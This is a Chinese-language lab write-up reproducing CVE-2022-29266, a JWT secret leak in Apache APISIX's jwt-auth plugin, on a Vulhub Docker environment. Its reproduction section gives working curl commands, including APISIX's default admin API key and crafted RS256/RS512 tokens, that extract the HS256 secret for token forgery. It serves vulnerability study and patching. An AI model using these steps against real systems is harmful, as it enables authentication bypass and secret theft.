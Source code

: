 # Apache APISIX jwt-auth 插件存在 JWT sceret 泄漏 CVE-2022-29266

## 漏洞描述

在 2.13.1 之前的 Apache APISIX 中，由于 APISIX 中的 jwt-auth 插件依赖于 lua-resty-jwt 库，而在 lua-resty-jwt 库返回的错误信息中可能会包含 JWT 的 sceret 值，因此对于开启了 jwt-auth 插件的 APISIX 存在 JWT sceret 的泄露，从而造成对 JWT 的伪造风险。

参考链接：

- https://wiki.teamssix.com/CloudNative/APISIX/apisix-cve-2022-29266.html
- https://xz.aliyun.com/t/11283

## 漏洞影响

```
Apache Apisix < 2.13.1
```

## 环境搭建

Vulhub 启动一个 Apache APISIX 2.11.0 环境。docker-compose.yml 如下：

```
version: "2"

services:
  apisix:
    image: vulhub/apisix:2.11.0
    volumes:
      - ./config.yml:/usr/local/apisix/conf/config.yaml:ro
    depends_on:
      - etcd
    ports:
      - "9080:9080"
      - "9091:9091"
      - "9443:9443"
  etcd:
    image: bitnami/etcd:3.4.15
    environment:
      ETCD_ENABLE_V2: "true"
      ALLOW_NONE_AUTHENTICATION: "yes"
      ETCD_ADVERTISE_CLIENT_URLS: "http://0.0.0.0:2379"
      ETCD_LISTEN_CLIENT_URLS: "http://0.0.0.0:2379"
    ports:
      - "2379:2379/tcp"
```

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:9080` 即可查看到默认的 404 页面。

![](images/Apache%20APISIX%20jwt-auth%20插件存在%20JWT%20sceret%20泄漏%20CVE-2022-29266/image-20240702134437136.png)

## 前置知识

JWT 的全称是 Json Web Token，是一种基于 JSON 的、用于在网络上声明某种主张的令牌（token）规范。JWT 通常由 Header、Payload、Signature 三部分组成，格式如下：

```
Header.Payload.Signature
```

JWT 的第三部分 Signature 是对 Header 和 Payload 部分的签名，起到防止数据篡改的作用，如果知道了 Signature 内容，那么就可以伪造 JWT 了。

JWT Signature 的 HS256 和 RS256 算法如下：

```
# HS256
signature = HMACSHA256( base64UrlEncode(header) + "." +base64UrlEncode(payload), secret );
   
# RS256   
signature = RSASHA256(base64UrlEncode(header) + "." +base64UrlEncode(payload), publicKey, privateKey)
```

其中，生成 RS256 公钥和私钥：

```bash
# 生成私钥
openssl genrsa -out private.key 2048
```

```bash
# 生成公钥
openssl rsa -in private.key -pubout -out public.key
```

## 漏洞复现

在 [jwt.io](https://jwt.io/) 生成一个 RS256 算法的 JWT 值。Payload 改为以下内容：

```
{"key": "test-key"}
```

此处 Payload 中的 key 值需要和下面创建 consumer 对象时的 key 一致，生成的 JWT 值如下：

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJ0ZXN0LWtleSJ9.stLb58YP5evXquu2ObWZG30MKHGAvAdQXrADdJK42BSVonFVkwK5cF4kora0UkzlnKjpUYCRfwF75Hdl4XOlrV7_MkVJfkZTpSlRmKIPCKN2JDqgsuK9TPrkjjGQzF91sA_7sx0QsL-hbmtjdfaizvhN0-2XGKzVEWiGuoOPK7pw22vEgXr-k4CddDORyaPVms5D1au92FAxmwH8sXRGydVSpBMfj70RQzcdO-qg6k1VODE8LP4Bcv8FJ153PRv1LuCMP1aeqPgXOBp8tXay4OAMGcKJSiMVwnD_sJ4lEGjVEhGQUuYhw7PNrakh6c_oza3ID7W9Bn6mWhagpVfkqA
```

![](images/Apache%20APISIX%20jwt-auth%20插件存在%20JWT%20sceret%20泄漏%20CVE-2022-29266/image-20240702134014361.png)

创建一个 consumer 对象，并设置 jwt-auth 的值，默认是 HS256 算法，secret 值为 `threekiii-secret-key`

```
curl http://your-ip:9080/apisix/admin/consumers -H 'X-API-KEY: edd1c9f034335f136f87ad84b625c8f1' -X PUT -d '
{
"username": "threekiii",
"plugins": {
"jwt-auth": {
"key": "test-key",
"secret": "threekiii-secret-key"
}
}
}'
```

![](images/Apache%20APISIX%20jwt-auth%20插件存在%20JWT%20sceret%20泄漏%20CVE-2022-29266/image-20240702134622145.png)

然后再创建路由对象，并开启 jwt-auth 插件：

```
curl http://your-ip:9080/apisix/admin/routes/1 -H 'X-API-KEY: edd1c9f034335f136f87ad84b625c8f1' -X PUT -d '
{
"methods": ["GET"],
"uri": "/index.html",
"plugins": {
"jwt-auth": {}
},
"upstream": {
"type": "roundrobin",
"nodes": {
"0.0.0.0:80": 1
}
}
}'
```

![](images/Apache%20APISIX%20jwt-auth%20插件存在%20JWT%20sceret%20泄漏%20CVE-2022-29266/image-20240702134642060.png)

当启用了 jwt-auth 插件后，会增加 `/apisix/plugin/jwt/sign` 这个接口，访问这个 api，可以获取到认证 token：

```
curl http://your-ip:9080/apisix/plugin/jwt/sign?key=test-key -i
```

![](images/Apache%20APISIX%20jwt-auth%20插件存在%20JWT%20sceret%20泄漏%20CVE-2022-29266/image-20240702134828077.png)

将刚才由 RS256 算法生成的 JWT 值发送给 HS256 算法验证的路由，这样就可以获得刚才设置的 secret 值了：

```
curl http://your-ip:9080/index.html?jwt=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJ0ZXN0LWtleSJ9.stLb58YP5evXquu2ObWZG30MKHGAvAdQXrADdJK42BSVonFVkwK5cF4kora0UkzlnKjpUYCRfwF75Hdl4XOlrV7_MkVJfkZTpSlRmKIPCKN2JDqgsuK9TPrkjjGQzF91sA_7sx0QsL-hbmtjdfaizvhN0-2XGKzVEWiGuoOPK7pw22vEgXr-k4CddDORyaPVms5D1au92FAxmwH8sXRGydVSpBMfj70RQzcdO-qg6k1VODE8LP4Bcv8FJ153PRv1LuCMP1aeqPgXOBp8tXay4OAMGcKJSiMVwnD_sJ4lEGjVEhGQUuYhw7PNrakh6c_oza3ID7W9Bn6mWhagpVfkqA -i
```

![](images/Apache%20APISIX%20jwt-auth%20插件存在%20JWT%20sceret%20泄漏%20CVE-2022-29266/image-20240702135025523.png)

当拿到这个 sceret 值后，就可以伪造 JWT Token 了。

同样，使用 RS512 算法也能触发这个漏洞。在 [jwt.io](https://jwt.io/) 上生成 RS512 的 JWT 值如下：

```
eyJhbGciOiJSUzUxMiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJ0ZXN0LWtleSJ9.OJb_ZfTWdb8PvVWBjsFssyIIBfGhqfoR16FzNFzA4hxqpAqcoIzF_yBja6RWOH6jWCrtuPViLwkmMEjU1HZ_UFaKKFAuHiYe9w7aOrV5eWnI9XmpYJUlXwV_2EveaRa9y0pjPu2miqeemPTZXGlK28aqt9idmWySIsqgEwjpzrqHnej9opoJcZ1kBOdm-ED3MMi8-dDE2CqaC1JqIJsVz3_9a1FoYJLwwugTD1msUIdQ9DTRskgcPBj2KPvPx6hHO-gjMVxTvpXIyjjzFfomWxvsOdhjxd342PJOWcWkEO7n0G4NV2weIhQbyLUiPRHEE7QPaxNxcA9-43jk9TR5_g
```

![](images/Apache%20APISIX%20jwt-auth%20插件存在%20JWT%20sceret%20泄漏%20CVE-2022-29266/image-20240702135316039.png)

将由 RS512 算法生成的 JWT 值也可以触发漏洞，获得 secret 值：

```
curl http://your-ip:9080/index.html?jwt=eyJhbGciOiJSUzUxMiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJ0ZXN0LWtleSJ9.OJb_ZfTWdb8PvVWBjsFssyIIBfGhqfoR16FzNFzA4hxqpAqcoIzF_yBja6RWOH6jWCrtuPViLwkmMEjU1HZ_UFaKKFAuHiYe9w7aOrV5eWnI9XmpYJUlXwV_2EveaRa9y0pjPu2miqeemPTZXGlK28aqt9idmWySIsqgEwjpzrqHnej9opoJcZ1kBOdm-ED3MMi8-dDE2CqaC1JqIJsVz3_9a1FoYJLwwugTD1msUIdQ9DTRskgcPBj2KPvPx6hHO-gjMVxTvpXIyjjzFfomWxvsOdhjxd342PJOWcWkEO7n0G4NV2weIhQbyLUiPRHEE7QPaxNxcA9-43jk9TR5_g -i
```

![](images/Apache%20APISIX%20jwt-auth%20插件存在%20JWT%20sceret%20泄漏%20CVE-2022-29266/image-20240702135257240.png)

## 漏洞修复

目前厂商已发布升级补丁以修复漏洞，补丁获取链接： https://lists.apache.org/thread/6qpfyxogbvn18g9xr8g218jjfjbfsbhr
